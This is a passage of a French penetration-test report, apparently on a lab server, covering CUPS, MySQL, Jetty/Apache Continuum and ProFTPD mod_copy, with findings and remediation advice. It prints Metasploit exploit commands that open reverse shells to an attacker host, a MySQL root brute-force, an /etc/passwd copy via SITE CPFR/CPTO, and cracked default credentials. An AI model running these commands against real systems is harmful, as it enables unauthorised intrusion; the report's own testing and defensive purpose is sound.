4. Activer la **journalisation** SMB et surveiller les accès anormaux.
5. Éviter d’exposer SMB en clair sur des segments accessibles aux postes non maîtrisés.
---

### 4.4 🔹 CUPS (631/tcp – Internet Printing Protocol)

#### 🎯 Objectif
Analyser le service **CUPS (Common Unix Printing System)** exposé sur le port 631/tcp, afin de déterminer s’il présente des vulnérabilités exploitables.

#### 🔎 Étape 1 – Identification
Nmap a détecté :  
- **631/tcp open ipp**  
- Service : **CUPS 1.7**

CUPS est un serveur d’impression basé sur l’Internet Printing Protocol (IPP). Il propose aussi une interface web de gestion accessible via HTTP.

#### 🛠️ Étape 2 – Enumération

#### Accès web
Vérification de l’interface web exposée :  
```bash
firefox http://192.168.1.55:631
```

Résultat : accès possible à l’interface d’administration de CUPS (authentification requise).  


#### Scripts Nmap
```bash
nmap -p 631 --script=cups-info 192.168.1.55
nmap -p 631 --script=cups-queue-info 192.168.1.55
```

Résultat :  
- Les scripts Nmap n’ont pas retourné d’informations exploitables.  
- Cela confirme la présence du service mais sans fuite particulière.  

#### Logs CUPS
Exploration des journaux via l’interface web :  




Les logs montrent des connexions et tentatives d’ajout d’imprimantes mais aucune compromission réussie.

#### 🚀 Étape 3 – Recherche et exploitation Metasploit

Commande utilisée :  
```bash
search cups
```

Résultats :  
- `cups_root_file_read` (2012) → lecture de fichiers (CUPS 1.6.1 uniquement).  
- `cups_bash_env_exec` (2014) → exploitation de **Shellshock** via CGI (CVE-2014-6271).  
- `cups_ipp_remote_code_execution` (2024) → RCE IPP (versions plus récentes).  
- `cups_browsed_info_disclosure` → fuite d’informations sur les imprimantes.  

#### Tests réalisés
```bash
use exploit/multi/http/cups_bash_env_exec
set RHOSTS 192.168.1.55
set PAYLOAD cmd/unix/reverse_bash
run
```

➡️ Résultat : **échec** (aucun CGI vulnérable détecté).

```bash
use auxiliary/scanner/misc/cups_browsed_info_disclosure
set RHOSTS 192.168.1.55
run
```
➡️ Résultat : récupération de quelques URLs internes liées aux imprimantes, mais aucune donnée sensible exploitable.

#### 📊 Analyse
- Le service est bien exposé et accessible via HTTP.  
- Les modules Metasploit testés n’ont pas permis d’obtenir une exécution de code ou un accès non autorisé.  
- Les vulnérabilités connues (Shellshock, RCE IPP) ne s’appliquent pas à cette version/configuration.  
- La principale faiblesse reste la présence de l’interface d’administration en clair, accessible à distance.  

#### ✅ Conclusion
- **Pas de compromission via CUPS dans ce contexte.**  
- Risques identifiés :  
  - Accès non restreint à l’interface web d’administration.  
  - Possibilité de fuite d’informations via les logs ou la configuration.  
  - Attaques DoS envisageables sur le service d’impression.  

#### 🛡️ Recommandations
1. Restreindre l’accès au port **631/tcp** aux seuls administrateurs internes.  
2. Désactiver l’interface web de CUPS si elle n’est pas indispensable.  
3. Mettre à jour CUPS vers une version récente et patchée.  
4. Activer l’authentification forte pour toute opération d’administration.  
5. Surveiller les logs CUPS afin de détecter des abus ou des scans suspects.  


### 4.5 🔹 MySQL (3306/tcp)

#### 🎯 Objectif
Analyser le service **MySQL** exposé sur le port 3306/tcp et vérifier s’il est vulnérable à des attaques de type bruteforce, mauvaise configuration ou exploitation avancée via fonctions UDF.


#### 🔎 Étape 1 – Identification
Nmap a détecté :  
- **3306/tcp open mysql**  
- Réponse : **unauthorized** (le service est protégé par authentification).

Cela indique que le service est actif mais qu’aucune connexion anonyme n’est autorisée.


#### 🛠️ Étape 2 – Enumération avec Metasploit (Bruteforce)
Le module `mysql_login` permet de tester des identifiants faibles ou par défaut.

```bash
msfconsole
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.1.32
set RPORT 3306
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

➡️ Objectif : tester si le compte **root** ou d’autres utilisateurs possèdent un mot de passe trivial (ex. `root`, `password`, vide...).

**Résultat :**  
- Bruteforce réussi ✅  
- Identifiants root découverts (login root + mot de passe valide).  
- Cependant, lors de la tentative de connexion :  
  ```
  ERROR 1130 (HY000): Host 'kali.home' is not allowed to connect to this MySQL server
  ```

➡️ Cela prouve que **le compte root est restreint aux connexions locales uniquement** (localhost).

#### 🚀 Étape 3 – Connexion (bloquée)
Tentative manuelle :  
```bash
mysql -h 192.168.1.32 -u root -p
```

**Résultat :** refusé, car le serveur n’autorise pas l’hôte distant `kali.home`.

#### 📊 Analyse
- Le compte **root MySQL** existe avec un mot de passe faible, découvert par bruteforce.  
- Le serveur MySQL est configuré pour bloquer les connexions root depuis des hôtes distants.  
- Cette restriction empêche une exploitation directe depuis Kali.  
- Cependant, **si un attaquant obtient un accès local** (ex. via une autre faille), il pourrait :  
  - Accéder à toutes les bases de données,  
  - Lire ou modifier des données sensibles,  
  - Installer un UDF malveillant pour exécuter du code au niveau système.  

#### ✅ Conclusion
- **Vulnérabilité confirmée** : mot de passe root faible et cracké.  
- **Limite d’exploitation à distance** : accès root restreint à `localhost`.  
- **Impact potentiel** : en cas d’accès local, cela offre un vecteur de compromission critique.

#### 🛡️ Recommandations
1. Restreindre l’exposition du port **3306/tcp** au réseau local uniquement si nécessaire.  
2. Supprimer l’accès root à distance et désactiver les connexions root non locales.  
3. Mettre en place un mot de passe robuste pour le compte root.  
4. Créer des comptes spécifiques avec privilèges restreints pour les applications.  
5. Surveiller les logs MySQL pour détecter des tentatives de bruteforce.  

---

### 4.6 🔹 Jetty (8080/tcp – HTTP Proxy)

#### 🎯 Objectif
Analyser le service **Jetty 8.1.7.v20120910** exposé sur le port 8080/tcp, déterminer son rôle et vérifier la présence de vulnérabilités exploitables.

#### 🔎 Étape 1 – Identification
Nmap a détecté :  
- **8080/tcp open http-proxy**  
- Service : **Jetty 8.1.7.v20120910**

Jetty est un serveur web/servlet Java permettant d’héberger des applications (souvent consoles d’administration, applications web Java comme Jenkins, etc.).


#### 🛠️ Étape 2 – Enumération manuelle
1. **Accès direct via navigateur** :  
   
   URL : `http://192.168.1.32:8080`  

   ➡️ Réponse :  
   - Erreur **404 Not Found**  
   - Mais le serveur liste une application déployée : **Apache Continuum 1.4.2**.  
👉 Cela montre que Jetty héberge une application vulnérable (Continuum).
1. **Brute-force des répertoires** :  
   
   ```bash
   gobuster dir -u http://192.168.1.32:8080 -w /usr/share/wordlists/dirb/common.txt
   ```

   ➡️ Rien de significatif, à part /favicon.ico.


1. **Identification des en-têtes HTTP** :  
   ```bash
   curl -I http://192.168.1.32:8080
   ```

   ➡️ Confirme la version Jetty : 8.1.7.v20120910


#### 🚀 Étape 3 – Recherche d’exploits Metasploit
Commande :  
```bash
search jetty
```

Un module pertinent trouvé :  
- `auxiliary/gather/jetty_web_inf_disclosure` → Vérifie si Jetty divulgue des fichiers sensibles (`WEB-INF/`).


➡️ À ce stade, aucun exploit RCE direct connu sur **Jetty 8.1.7** seul, mais les applications qu’il héberge peuvent être vulnérables.

#### 🚀 Étape 4 – Test de vulnérabilités avec Metasploit
#####  1. Identification du module Metasploit
Le module suivant a été identifié comme applicable :  
```
exploit/linux/http/apache_continuum_cmd_exec
```
##### 2. Configuration et lancement de l’exploit
Commande utilisée dans Metasploit :

```bash
use exploit/linux/http/apache_continuum_cmd_exec
set RHOSTS 192.168.1.55
set LHOST 192.168.1.34
set payload linux/x64/meterpreter/reverse_tcp
run
```

##### 3. Résultat

Une session **Meterpreter** a été ouverte avec succès :

```
meterpreter > getuid
Server username: root
```

L’attaquant dispose donc directement d’un **accès root** sur la machine compromise.


#### ✅ Conclusion
Cette vulnérabilité sur **Jetty / Apache Continuum** permet une **compromission totale du serveur** sans authentification préalable.  
L’attaquant peut exécuter n’importe quelle commande système avec les privilèges root, ce qui ouvre la voie à :  
- une **prise de contrôle complète de la machine**,  
- un **mouvement latéral** dans le réseau interne,  
- un **risque critique pour l’intégrité et la confidentialité des données**.


### 4.7 🔹 FTP (ProFTPD 1.3.5 – mod_copy)

## 🔎 Contexte
Le port **21/tcp (FTP)** exposait un service **ProFTPD 1.3.5**.  
Cette version est vulnérable au module **`mod_copy`** qui permet de copier des fichiers arbitraires depuis et vers le système.  
👉 Vulnérabilité référencée : **CVE-2015-3306**.

## 🛠️ Exploitation

### Étape 1 – Vérification du service
```bash
nc 192.168.1.55 21
```
Réponse du serveur :




### Étape 2 – Test avec commandes `SITE`
ProFTPD autorisait les commandes spéciales `SITE CPFR` et `SITE CPTO`, confirmant la présence du module vulnérable.

```bash
SITE CPFR /etc/passwd
SITE CPTO /tmp/passwd.bak
```
✅ Réponse positive → le serveur a bien copié `/etc/passwd` → preuve d’arbitraire file copy.

### Étape 3 – Exploitation avec Metasploit
Utilisation du module Metasploit **`unix/ftp/proftpd_modcopy_exec`** :

```msf
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 192.168.1.55
set SITEPATH /var/www/html
set PAYLOAD cmd/unix/reverse_perl
set LHOST 192.168.1.30
set LPORT 4444
run
```

📌 Résultat :  
- Upload d’un payload PHP malveillant dans `/var/www/html/odiel1.php`.  
- Exécution du payload → **reverse shell obtenu**.

### Étape 4 – Session obtenue
Shell interactif établi :

```bash
whoami
www-data
ls -la
```

Le shell permettait d’exécuter des commandes avec les droits de l’utilisateur **www-data**.

## 📌 Analyse
- Vulnérabilité : **ProFTPD mod_copy (CVE-2015-3306)**.  
- Impact : un attaquant distant peut lire ou écrire des fichiers arbitraires → exécution de code à distance possible.  
- Gravité : **Critique** (accès initial sur le serveur).  

## ✅ Conclusion
Le service FTP exposait une version vulnérable de **ProFTPD**.  
Grâce à l’exploitation de **mod_copy**, il a été possible d’obtenir un **reverse shell** avec les droits de l’utilisateur `www-data`.  


---
# 5. Tableau récapitulatif des services et vulnérabilités

| Port  | Service             | Version / Info                        | Résultat exploitation                          | Commentaire / Vulnérabilité |
|-------|---------------------|---------------------------------------|-----------------------------------------------|-----------------------------|
| 21    | FTP                 | vsFTPd 3.x                            | ✅ Accès avec `ftpuser:ftpuser123`             | Mot de passe faible → fuite de données |
| 22    | SSH                 | OpenSSH 6.6.1p1 (Ubuntu 12.04)        | ✅ Bruteforce réussi `vagrant:vagrant`         | Identifiants par défaut actifs |
| 80    | Apache HTTPD        | 2.4.7 (Ubuntu)                        | ✅ phpMyAdmin root sans mot de passe + SQLi Payroll App → root | Application vulnérable, exposition critique |
| 445   | Samba               | Samba 3.x – 4.x                       | ⚠️ Enumération (`chewbacca`) mais ❌ pas d’accès | Info disclosure, pas de RCE |
| 631   | CUPS                | CUPS 1.7                              | ❌ Exploits Metasploit échoués (Shellshock, info disclosure) | Interface exposée mais pas de compromission |
| 3306  | MySQL               | MySQL 5.5                             | ⚠️ Bruteforce réussi mais bloqué (`host not allowed`) | Auth root restreinte à localhost |
| 8080  | Jetty HTTP          | Jetty 8.1.7 + Apache Continuum 1.4.2  | ✅ Exploit Metasploit → session root Meterpreter | CVE RCE connues, compromission totale |
| 8181  | Intermapper         | — (closed)                            | ❌ Non exploitable                             | Service inactif |

### 📝 Synthèse
- **Exploités avec succès :**  
  - FTP (faibles mots de passe)  
  - SSH (identifiants par défaut)  
  - Apache (phpMyAdmin root + Payroll App SQLi)  
  - Jetty/Continuum (RCE → root)  

- **Faiblesse mais pas d’exploitation complète :**  
  - MySQL (root trouvé mais bloqué en accès externe)  
  - Samba (enumération utilisateur seulement)  
  - CUPS (exposé mais sans RCE exploitable)  

- **Non exploitables :**  
  - Intermapper (fermé)  

---

## 6. ✅ Conclusion générale

L’analyse de l'ancien serveur de l'hypermarché a montré plusieurs points critiques :  

### 🔎 Résultats principaux
- **SSH (22/tcp)** : accès obtenu via identifiants par défaut (`vagrant:vagrant`).  
- **phpMyAdmin / Apache (80/tcp)** : accès root sans mot de passe + Payroll App vulnérable à SQLi → compromission immédiate et escalade root.  
- **Jetty / Apache Continuum (8080/tcp)** : vulnérabilité RCE exploitée avec succès → contrôle root à distance.  
- **FTP (21/tcp)** : mot de passe faible (`ftpuser`) → fuite de données possible.  
- **MySQL (3306/tcp)** : faiblesse détectée (root sans mot de passe fort) mais bloquée par restriction réseau.  
- **Samba (445/tcp) & CUPS (631/tcp)** : exposition inutile, surface d’attaque supplémentaire sans exploitation réussie.  

### 📊 Interprétation
- Le système contient **plusieurs failles critiques exploitables à distance** qui permettent une compromission totale (root).  
- Certaines protections partielles (MySQL `host not allowed`) réduisent l’impact mais ne corrigent pas la vulnérabilité sous-jacente.  
- Les autres services (CUPS, Samba) montrent de mauvaises pratiques de configuration (exposition inutile).  

---

## 7. 🔐 Recommandations globales

### 1. Gestion des comptes et accès
- Supprimer immédiatement les comptes par défaut (`vagrant`, `ftpuser`).  
- Mettre en place une **politique stricte de mots de passe** : complexité, longueur minimale (12+), expiration régulière.  
- Activer une solution de **gestion centralisée des comptes** pour éviter les identifiants partagés et faciliter la révocation.  

### 2. Sécurisation des services web
- Restreindre l’accès à **phpMyAdmin** uniquement depuis les IP administratives autorisées.  
- Désactiver la connexion root à phpMyAdmin et utiliser des comptes spécifiques avec des droits limités.  
- Corriger les failles SQLi dans l’application Payroll App en mettant en œuvre des **requêtes paramétrées**.  
- Activer des **en-têtes de sécurité HTTP** manquants (`X-Frame-Options`, `X-Content-Type-Options`, `Content-Security-Policy`).  

### 3. Mises à jour logicielles
- Migrer vers une version **supportée** d’Ubuntu et appliquer les mises à jour de sécurité.  
- Mettre à jour Apache HTTPD, MySQL, Samba et CUPS.  
- Supprimer ou remplacer **Apache Continuum**, qui est obsolète et non maintenu.  

### 4. Base de données (MySQL)
- Supprimer l’accès root distant, même bloqué, pour réduire la surface d’attaque.  
- Créer des comptes applicatifs dédiés avec des privilèges **minimaux**.  
- Activer le chiffrement TLS pour les connexions MySQL.  

### 5. Exposition réseau
- Restreindre l’exposition des services (FTP, CUPS, Samba) aux seuls réseaux internes nécessaires.  
- Mettre en place un **pare-feu** filtrant par défaut et n’ouvrant que les ports indispensables.  
- Séparer les environnements de test et de production pour limiter l’impact d’une compromission.  

### 6. Surveillance et détection
- Activer et centraliser les **journaux systèmes et applicatifs**.  
- Déployer un **IDS/IPS** (ex: Snort, Suricata) pour détecter les tentatives d’exploitation (brute-force, RCE).  
- Mettre en place une alerte sur les connexions SSH multiples échouées et sur les activités suspectes (uploads FTP, accès phpMyAdmin).  

---

## ✅ Bilan
Le système présente plusieurs **failles critiques exploitables** (SSH faible, phpMyAdmin root accessible, Continuum obsolète).  
Même si certains services n’ont pas donné lieu à une compromission (CUPS, Samba, MySQL restreint), ils augmentent la surface d’attaque et nécessitent une vigilance accrue.  

L’exploitation réussie de SSH, phpMyAdmin et Jetty/Continuum démontre que **l’attaquant peut obtenir un accès root complet**, compromettant à la fois le système et les données.  

➡️ **Une remédiation urgente et une refonte de la configuration de sécurité sont nécessaires.**